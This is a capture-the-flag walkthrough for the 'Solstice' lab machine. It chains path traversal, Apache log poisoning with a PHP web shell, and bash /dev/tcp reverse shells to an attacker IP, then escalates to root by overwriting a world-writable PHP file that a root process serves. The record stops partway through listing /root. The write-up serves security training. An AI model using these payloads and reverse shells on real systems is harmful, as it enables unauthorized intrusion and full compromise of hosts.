

# Solstice

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Difficulty: Easy
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Linux
Points: 5
Lab Description:
In this lab, attackers combine a Local File Inclusion (LFI) vulnerability with a log poisoning 
attack to gain remote code execution. By leveraging world-writable file permissions on a PHP 
script executed by a root-level process, they escalate privileges to obtain a root shell. This 
scenario highlights the dangers of misconfigured web servers and file permissions.
Released: 25 Aug 2020
```

Machine link: [https://portal.offsec.com/machine/solstice-319/overview/details](https://portal.offsec.com/machine/solstice-319/overview/details)

## Solution

### Scan for services with nmap

We start by scanning the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ export TARGET_IP=192.168.230.72

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 10:02 CEST
Nmap scan report for 192.168.230.72
Host is up (0.033s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
21/tcp    open  ftp        pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.230.72:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:a7:37:fd:55:6c:f8:ea:03:f5:10:bc:94:32:07:18 (RSA)
|   256 ab:da:6a:6f:97:3f:b2:70:3e:6c:2b:4b:0c:b7:f6:4c (ECDSA)
|_  256 ae:29:d4:e3:46:a1:b1:52:27:83:8f:8f:b0:c4:36:d1 (ED25519)
25/tcp    open  smtp       Exim smtpd
| smtp-commands: solstice Hello nmap.scanme.org [192.168.45.180], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp    open  http       Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
2121/tcp  open  ftp        pyftpdlib 1.5.6
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.230.72:2121
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drws------   2 www-data www-data     4096 Jun 18  2020 pub
3128/tcp  open  http-proxy Squid http proxy 4.6
|_http-server-header: squid/4.6
|_http-title: ERROR: The requested URL could not be retrieved
8593/tcp  open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
54787/tcp open  http       PHP cli server 5.5 or later (PHP 7.3.14-1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
62524/tcp open  ftp        FreeFloat ftpd 1.00
Service Info: OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.82 seconds
```

We have 8 services running:

- pyftpdlib 1.5.6 on port 21
- OpenSSH 7.9p1 on port 22
- Exim smtpd 4.92 on port 25
- Apache httpd 2.4.38 on port 80
- pyftpdlib 1.5.6 again on port 2121
- Squid http proxy 4.6 on port 3128
- PHP cli server 5.5 or later on port 54787
- FreeFloat ftpd 1.00 on port 62524

### Check the FTP-servers

We check the FTP-servers by logging in as `anonymous`

```bash
┌──(kali㉿kali)-[/mnt/…/Wargames/OffSec_PG/PG_Play/Solstice]
└─$ ftp 192.168.198.72        
Connected to 192.168.198.72.
220 pyftpdlib 1.5.6 ready.
Name (192.168.198.72:kali): anonymous 
331 Username ok, send password.
Password: 
530 Anonymous access not allowed.
ftp: Login failed
ftp> quit
221 Goodbye.

┌──(kali㉿kali)-[/mnt/…/Wargames/OffSec_PG/PG_Play/Solstice]
└─$ ftp -P 2121 192.168.198.72        
Connected to 192.168.198.72.
220 pyftpdlib 1.5.6 ready.
Name (192.168.198.72:kali): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||54827|).
125 Data connection already open. Transfer starting.
drws------   2 www-data www-data     4096 Jun 18  2020 pub
226 Transfer complete.
ftp> cd pub
250 "/pub" is the current directory.
ftp> ls
229 Entering extended passive mode (|||44733|).
125 Data connection already open. Transfer starting.
226 Transfer complete.
ftp> put test_file.txt
local: test_file.txt remote: test_file.txt
229 Entering extended passive mode (|||41495|).
550 Not enough privileges.
ftp> quit
221 Goodbye.
```

But find nothing of value and can't write to the `/pub` directory either.

### Check the web sites

Next, we check the web sites by manually browsing to them

On port 80 we just see the message `Currently configuring the database, try later.` and the footer `Proudly powered by phpIPAM 1.4`.

On port 8593 we get some kind of book site and if we click the `Book List`-link we see



This look like a [path traversal](https://portswigger.net/web-security/file-path-traversal) opportunity.

And on port 54787 we get no answer.

### Verify the path traversal

Let's verify the path traversal possibility with `curl` and try to get the `/etc/passwd` file

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$  curl http://$TARGET_IP:8593/index.php?book=../../../etc/passwd
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
We are still setting up the library! Try later on!<p></p>    </body>
</html>

┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$  curl http://$TARGET_IP:8593/index.php?book=../../../../etc/passwd
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
We are still setting up the library! Try later on!<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:105:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
avahi:x:106:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:118::/var/lib/saned:/usr/sbin/nologin
colord:x:108:119:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:120:MySQL Server,,,:/nonexistent:/bin/false
miguel:x:1000:1000:,,,:/home/miguel:/bin/bash
uuidd:x:112:121::/run/uuidd:/usr/sbin/nologin
smmta:x:113:122:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:114:123:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin
Debian-exim:x:115:124::/var/spool/exim4:/usr/sbin/nologin
</p>    </body>
</html>
```

We can see that the `miguel` user looks interesting.

### Web Log Poisoning

Can we access the Apache web log? And maybe do some log poisoning?

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$  curl http://$TARGET_IP:8593/index.php?book=../../../../var/log/apache2/access.log
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
We are still setting up the library! Try later on!<p>192.168.45.180 - - [01/Sep/2025:04:02:27 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:40 -0400] "PROPFIND / HTTP/1.1" 405 524 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:40 -0400] "GET / HTTP/1.1" 200 567 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:40 -0400] "PROPFIND / HTTP/1.1" 405 524 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET / HTTP/1.1" 200 567 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /nmaplowercheck1756713760 HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /.git/HEAD HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /HNAP1 HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "POST /sdk HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /evox/about HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "GET /robots.txt HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "GET /favicon.ico HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "POST / HTTP/1.1" 200 567 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "PROPFIND / HTTP/1.1" 405 524 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "GMNK / HTTP/1.1" 501 500 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:56 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:56 -0400] "GET / HTTP/1.1" 200 548 "-" "-"
</p>    </body>
</html>
```

Yes, we can access the log.

We can also do a little test by creating a custom [User-Agent headers](https://en.wikipedia.org/wiki/User-Agent_header) with `curl`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ curl -s -A "Curl: Port 80" http://$TARGET_IP:80 -o irrelevant.txt
```

And check the log again

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ curl http://$TARGET_IP:8593/index.php?book=../../../../var/log/apache2/access.log
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
We are still setting up the library! Try later on!<p>192.168.45.180 - - [01/Sep/2025:04:02:27 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:40 -0400] "PROPFIND / HTTP/1.1" 405 524 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:40 -0400] "GET / HTTP/1.1" 200 567 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:40 -0400] "PROPFIND / HTTP/1.1" 405 524 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET / HTTP/1.1" 200 567 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /nmaplowercheck1756713760 HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /.git/HEAD HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /HNAP1 HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "POST /sdk HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:41 -0400] "GET /evox/about HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "GET /robots.txt HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "GET /favicon.ico HTTP/1.1" 404 456 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "POST / HTTP/1.1" 200 567 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "PROPFIND / HTTP/1.1" 405 524 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "GMNK / HTTP/1.1" 501 500 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:42 -0400] "OPTIONS / HTTP/1.1" 200 181 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
192.168.45.180 - - [01/Sep/2025:04:02:56 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:56 -0400] "GET / HTTP/1.1" 200 548 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:11:29 -0400] "GET / HTTP/1.1" 200 548 "-" "Curl: Port 80"
</p>    </body>
</html>
```

Ah, verified. We see our access at the bottom of the log.

### Poison the log with PHP web shell

Now we use a simple PHP web shell that looks like this

```php
<?php system($_GET['cmd']); ?>
```

We use `curl` again to plant it in the log file

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ curl -s -A "<?php system(\$_GET['cmd']); ?>" http://$TARGET_IP:80 -o irrelevant.txt  
```

Note the quoted dollar sign in the command!

Then we try it out with the `id` command

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ curl "http://$TARGET_IP:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=id"    
<html>
    <head>
        <link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet"> 
        <link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?book=list">Book List</a>
        </div>
We are still setting up the library! Try later on!<p>192.168.45.180 - - [01/Sep/2025:04:02:27 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
<---snip--->
192.168.45.180 - - [01/Sep/2025:04:02:56 -0400] "GET / HTTP/1.0" 200 567 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:02:56 -0400] "GET / HTTP/1.1" 200 548 "-" "-"
192.168.45.180 - - [01/Sep/2025:04:11:29 -0400] "GET / HTTP/1.1" 200 548 "-" "Curl: Port 80"
192.168.45.180 - - [01/Sep/2025:04:42:53 -0400] "GET / HTTP/1.1" 200 548 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
"
</p>    </body>
</html>
```

We are running as `www-data`.

### Start a netcat listener

As preparation we start a netcat listener on port 12345

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

### Trigger a reverse shell

And trigger a reverse shell with a URL-encoded version of `bash -i >& /dev/tcp/192.168.45.180/12345 0>&1`

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ curl "http://$TARGET_IP:8593/index.php?book=../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.180%2F12345%200%3E%261%22"

```

Checking back at our netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.230.72] 55904
bash: cannot set terminal process group (489): Inappropriate ioctl for device
bash: no job control in this shell
www-data@solstice:/var/tmp/webserver$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@solstice:/var/tmp/webserver$ 
```

### Get the user flag

Now we can hunt for the user flag

```bash
www-data@solstice:/var/tmp/webserver$ find / -type f -name user.txt 2>/dev/null 
<ebserver$ find / -type f -name user.txt 2>/dev/null
/home/miguel/user.txt
www-data@solstice:/var/tmp/webserver$ cat /home/miguel/user.txt
cat /home/miguel/user.txt
cat: /home/miguel/user.txt: Permission denied
www-data@solstice:/var/tmp/webserver$ ls -l /home/miguel/user.txt
ls -l /home/miguel/user.txt
-rw------- 1 miguel miguel 32 Aug 13  2020 /home/miguel/user.txt
www-data@solstice:/var/tmp/webserver$ 
```

Hhm, we need access to the `miguel` user. Keep looking for other files just in case

```bash
www-data@solstice:/var/tmp/webserver$ find / -type f -name local.txt 2>/dev/null
<bserver$ find / -type f -name local.txt 2>/dev/null
/var/www/local.txt
www-data@solstice:/var/tmp/webserver$ cat /var/www/local.txt
cat /var/www/local.txt
4<REDACTED>b
www-data@solstice:/var/tmp/webserver$ 
```

### Enumeration for privesc

Next, we enumerate the system for privilege escalation opportunities.

After some enumeration we find that there is a local service running on port 57

```bash
www-data@solstice:/var/tmp/webserver$ netstat -tunlp | grep 127.0.0.1              
netstat -tunlp | grep 127.0.0.1
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:57            0.0.0.0:*               LISTEN      -  
www-data@solstice:/var/tmp/webserver$ ps -aux | grep 57
ps -aux | grep 57
root        57  0.0  0.0      0     0 ?        S    04:34   0:00 [irq/32-pciehp]
root       491  0.0  0.0   2388   700 ?        Ss   04:34   0:00 /bin/sh -c /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
root       510  0.0  2.1 196936 21788 ?        S    04:34   0:00 /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
www-data  1864  0.0  0.0   6076   884 ?        S    05:28   0:00 grep 57
www-data@solstice:/var/tmp/webserver$ curl http://localhost:57
curl http://localhost:57
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    18    0    18    0     0   3600      0 --:--:-- --:--:-- --:--:--  3600
Under constructionwww-data@solstice:/var/tmp/webserver$ 
```

We have a PHP Web server (`-S` parameter) running with the web root (`-t` parameter) of `/var/tmp/sv/`

Let's check or the contents of that directory

```bash
www-data@solstice:/var/tmp/webserver$ ls -la /var/tmp/sv
ls -la /var/tmp/sv
total 12
drwsrwxrwx 2 root root 4096 Jun 26  2020 .
drwxrwxrwt 9 root root 4096 Sep  1 05:09 ..
-rwxrwxrwx 1 root root   36 Jun 19  2020 index.php
www-data@solstice:/var/tmp/webserver$ cat /var/tmp/sv/index.php
cat /var/tmp/sv/index.php
<?php
echo "Under construction";
?>
www-data@solstice:/var/tmp/webserver$ 
```

Note that the `index.php` file is writable by us.

### Get another reverse shell as root

Since the file is writable we can change the contents launch another reverse shell

```bash
www-data@solstice:/var/tmp/webserver$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@solstice:/var/tmp/webserver$ cat > /var/tmp/sv/index.php << EOF
cat > /var/tmp/sv/index.php << EOF
> <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.180/12346 0>&1'"); ?>
> EOF
EOF
www-data@solstice:/var/tmp/webserver$ cat /var/tmp/sv/index.php
cat /var/tmp/sv/index.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.180/12346 0>&1'"); ?>
www-data@solstice:/var/tmp/webserver$ 
```

We start another netcat listener

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ nc -lvnp 12346                          
listening on [any] 12346 ...

```

And trigger the new reverse shell

```bash
www-data@solstice:/var/tmp/webserver$ curl http://localhost:57
curl http://localhost:57

```

### Get the flags

Checking our new reverse shell we have a connection as root.  
With this access we can get both flags

```bash
┌──(kali㉿kali)-[/mnt/hgfs/OffSec_PG/PG_Play/Solstice]
└─$ nc -lvnp 12346                          
listening on [any] 12346 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.230.72] 51012
bash: cannot set terminal process group (491): Inappropriate ioctl for device
bash: no job control in this shell
root@solstice:/var/tmp/sv# id
id
uid=0(root) gid=0(root) groups=0(root)
root@solstice:/var/tmp/sv# cat /root/root.txt
cat /root/root.txt
Your flag is in another file...
root@solstice:/var/tmp/sv# ls -la /root
ls -la /root
total 56
